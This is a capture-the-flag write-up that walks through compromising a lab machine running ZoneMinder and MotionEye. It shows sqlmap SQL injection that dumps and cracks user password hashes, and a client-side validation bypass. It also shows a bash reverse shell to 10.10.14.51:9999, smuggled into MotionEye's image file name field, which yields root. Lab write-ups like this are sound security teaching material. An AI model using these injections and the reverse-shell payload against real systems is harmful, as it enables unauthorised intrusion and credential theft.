





## Preliminary scans
1. All UDP scan
```SH
sudo nmap -Pn 10.129.253.58 -sU -p- --min-rate 20000 -oN nmap/allUdpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-11 19:36 EDT
Nmap scan report for 10.129.253.58
Host is up (0.29s latency).
Not shown: 65527 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
5846/udp  closed unknown
7673/udp  closed unknown
8073/udp  closed unknown
8935/udp  closed unknown
12250/udp closed unknown
33206/udp closed unknown
48948/udp closed unknown
62744/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 11.99 seconds
```
2. All TCP scan
```sh
sudo nmap -Pn 10.129.253.58 -sS -p- --min-rate 20000 -oN nmap/allTcpPortScan.nmap
```
Output:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-11 19:36 EDT
Warning: 10.129.253.58 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.253.58
Host is up (0.20s latency).
Not shown: 65346 closed tcp ports (reset), 187 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.27 seconds
```
3. Script and version scan
```sh
sudo nmap -Pn 10.129.253.58 -sCV -p22,80 --min-rate 20000 -oN nmap/scriptVersionScan.nmap
```
Output:
```
Nmap scan report for 10.129.253.58
Host is up (0.32s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://cctv.htb/
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.10 seconds
```
## Web Application Research
1. `http://cctv.htb/zm` brings us to a [ZoneMinder](https://github.com/ZoneMinder/zoneminder) website.
2. I tried using default credentials: `admin:admin`. (See https://forums.zoneminder.com/viewtopic.php?t=1366#:~:text=Re:%20Default%20password&text=The%20default%20password%20is%20given,password%20are%20admin%20and%20admin.)
	- Yep, we are in!
3. Using FFUF, we find a new domain name: `update.zoneminder.com`
4. Using SQLMap, we can get a blind time-based SQL Injection
```sh
sqlmap -u 'http://cctv.htb/zm/index.php?tid=1&view=request&request=event&action=removetag' -H 'Cookie: AddMonitorsTable.bs.table.searchText=; AddMonitorsTable.bs.table.pageNumber=1; zmLogsTable.bs.table.pageNumber=4; zmReportsTable.bs.table.searchText=; zmReportsTable.bs.table.pageNumber=1; zmSkin=classic; zmCSS=base; addMonitorsprobe_Manufacturer=; addMonitorsip=; addMonitorsprobe_username=; addMonitorsprobe_password=; speed=5; ZMSESSID=5m3onaivdevv440h3egu3e4tbu' -batch --level 3 --risk 3 --dbms mysql
```
Output:
```
<SNIP>
---
Parameter: tid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: tid=1 AND (SELECT 4062 FROM (SELECT(SLEEP(5)))dVeH)&view=request&request=event&action=removetag
---
[21:01:17] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL 8
<SNIP>
```
5. Instead of bruteforcing the tables and databases, the wiki mentioned something about `zm` database and Users table. Let's try this first.
```sh
sqlmap -u 'http://cctv.htb/zm/index.php?tid=1&view=request&request=event&action=removetag' -H 'Cookie: AddMonitorsTable.bs.table.searchText=; AddMonitorsTable.bs.table.pageNumber=1; zmLogsTable.bs.table.pageNumber=4; zmReportsTable.bs.table.searchText=; zmReportsTable.bs.table.pageNumber=1; zmSkin=classic; zmCSS=base; addMonitorsprobe_Manufacturer=; addMonitorsip=; addMonitorsprobe_username=; addMonitorsprobe_password=; speed=5; ZMSESSID=r6vb836ort6r3chi13a1nvgsqi' -D zm -T Users --dump 
```
Output:
```
[21:02:41] [INFO] retrieved: Id
[21:02:58] [INFO] retrieved: Username
[21:03:58] [INFO] retrieved: Password
[21:05:07] [INFO] retrieved: Name
[21:05:39] [INFO] retrieved: Email
[21:06:16] [INFO] retrieved: Phone 
<SNIP>
```
6. Since it took a long time, I just extracted username and password columns.
```sh
sqlmap -u 'http://cctv.htb/zm/index.php?tid=1&view=request&request=event&action=removetag' -H 'Cookie: AddMonitorsTable.bs.table.searchText=; AddMonitorsTable.bs.table.pageNumber=1; zmLogsTable.bs.table.pageNumber=4; zmReportsTable.bs.table.searchText=; zmReportsTable.bs.table.pageNumber=1; zmSkin=classic; zmCSS=base; addMonitorsprobe_Manufacturer=; addMonitorsip=; addMonitorsprobe_username=; addMonitorsprobe_password=; speed=5; ZMSESSID=qtolmgt28r0b9unhd25oc5800p' -D zm -T Users -C Username,Password  --dump
```
Output:
```
Database: zm
Table: Users
[3 entries]
+------------+--------------------------------------------------------------+
| Username   | Password                                                     |
+------------+--------------------------------------------------------------+
| superadmin | $2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm |
| mark       | $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. |
| admin      | $2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m |
+------------+--------------------------------------------------------------+
```
7. To crack it,
```sh
hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt --username
```
Output:
```
mark:opensesame
admin:admin
```
- We can use this password to login via SSH
## Shell as Mark
1. There is no flag in the home directory.
2. Sudo -l
```sh
sudo -l
```
Output:
```
[sudo] password for mark: 
Sorry, user mark may not run sudo on cctv.
```
3. Listening ports
```sh
ss -tlnp
```
Output:
```
State           Recv-Q          Send-Q                   Local Address:Port                     Peer Address:Port          Process          
LISTEN          0               4096                        127.0.0.54:53                            0.0.0.0:*                              
LISTEN          0               4096                         127.0.0.1:7999                          0.0.0.0:*                              
LISTEN          0               4096                         127.0.0.1:1935                          0.0.0.0:*                              
LISTEN          0               4096                     127.0.0.53%lo:53                            0.0.0.0:*                              
LISTEN          0               151                          127.0.0.1:3306                          0.0.0.0:*                              
LISTEN          0               128                          127.0.0.1:8765                          0.0.0.0:*                              
LISTEN          0               4096                         127.0.0.1:8888                          0.0.0.0:*                              
LISTEN          0               4096                         127.0.0.1:9081                          0.0.0.0:*                              
LISTEN          0               4096                         127.0.0.1:8554                          0.0.0.0:*                              
LISTEN          0               70                           127.0.0.1:33060                         0.0.0.0:*                              
LISTEN          0               4096                           0.0.0.0:22                            0.0.0.0:*                              
LISTEN          0               4096                              [::]:22                               [::]:*                              
LISTEN          0               511                                  *:80                                  *:*   
```
- A lot of the listening ports appears to be security cameras
4. PS aux
```sh
ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
mark        6004  0.0  0.1   8672  5728 pts/0    Ss   04:13   0:00 -bash
mark        6294  0.0  0.1  10884  4480 pts/0    R+   04:31   0:00 ps aux
```
5. Check VHOST
```sh
cat sites-available/* | grep -v '#\|^$' 
```
Output:
```xml
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
        ServerName default
        Redirect / http://cctv.htb/
</VirtualHost>
<VirtualHost *:80>
    ServerName cctv.htb
    DocumentRoot /var/www/html
    <Directory /var/www/html>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>
    ErrorLog ${APACHE_LOG_DIR}/cctv-error.log
    CustomLog ${APACHE_LOG_DIR}/cctv-access.log combined
</VirtualHost>
```
6. I decide to play with the ports using SSH port forward
```
ssh -L 9081:localhost:9081 mark@cctv.htb
```

### Port 9081
1. It is a stream that is sending pictures?
```
curl 127.0.0.1:9081 --output test
```
Output:
```
--BoundaryString
Content-type: image/jpeg
Content-Length:     11460
JFIF
Exif
0220
2026:03:12 05:19:29
2026:03:12 05:19:29
```
2. We can view the stream via Zone Minder

### Port 8765
1. This one runs an application called MotionEye. I am interested in it because there exist this vulnerability: https://www.exploit-db.com/exploits/52481
2. This looks promising

3. `admin:`, `admin:admin` and `mark:opensesame` did not work
4. Ok, I search for any mention of motioneye on the system
```
find / -name motioneye 2>/dev/null
/run/motioneye
/var/lib/motioneye
/var/log/motioneye
/etc/motioneye
/usr/local/lib/python3.12/dist-packages/motioneye
```
5. Let's check them out.
```
cat motion.conf 
# @admin_username admin
# @normal_username user
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
# @lang en
# @enabled on
# @normal_password 


setup_mode off
webcontrol_port 7999
webcontrol_interface 1
webcontrol_localhost on
webcontrol_parms 2

camera camera-1.conf
```
- OOOH CREDS!
6. Let's try to gain RCE.
First, add camera


Then open Console and overwrite the `configUiValid` function
```js
configUiValid = function() { 
    return true; 
};
```
Inject the command under Still Images > Image File Name

We have to change the capture mode to Interval Snapshots

This time, we inject the command for a reverse shell.
```
$(bash -c 'bash -i >& /dev/tcp/10.10.14.51/9999 0>&1').%Y-%m-%d-%H-%M-%S
```
Output:
```
nc -lvnp 9999                    
listening on [any] 9999 ...
connect to [10.10.14.51] from (UNKNOWN) [10.129.253.58] 56316
bash: cannot set terminal process group (9489): Inappropriate ioctl for device
bash: no job control in this shell
root@cctv:/etc/motioneye# id
id
uid=0(root) gid=0(root) groups=0(root)
```
- We are root!